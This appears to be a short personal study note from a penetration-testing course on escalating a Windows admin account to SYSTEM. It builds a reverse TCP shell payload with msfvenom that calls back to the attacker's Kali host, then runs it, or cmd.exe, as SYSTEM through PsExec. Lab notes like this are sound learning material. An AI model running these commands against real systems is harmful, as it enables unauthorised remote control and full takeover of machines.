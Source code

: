 To escalate from an admin user to full SYSTEM privileges, you can use the PsExec tool from Windows Sysinternals.

[https://docs.microsoft.com/en-us/sysinternals/downloads/psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)

A copy is included in the course tools ZIP archive.

```bash - kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f exe -o reverse.exe
```

```bash - kali
.\PsExec64.exe -accepteula -i -s C:\PrivEsc\reverse.exe
```

[[Python#Server]]

[[4._File Transfers]]

#### RDP
RDP'd in and then just ran the command prompt as Administrator, followed by:

```batch - target
powershell
```

```powershell - target
.\PsExec64.exe -i -s cmd.exe
```











